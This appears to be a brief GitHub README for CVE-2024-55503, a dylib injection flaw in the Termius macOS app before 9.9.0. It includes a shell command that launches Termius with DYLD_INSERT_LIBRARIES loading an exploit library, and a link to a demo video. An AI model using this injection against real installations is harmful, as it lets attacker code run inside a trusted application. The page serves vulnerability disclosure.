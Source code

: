 # CVE-2024-55503
Termius App MacOS dylib Command injection

Terminus before 9.9.0 

using dylib
```shell
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/R-Kze6liCwA/maxresdefault.jpg)](https://youtu.be/R-Kze6liCwA)
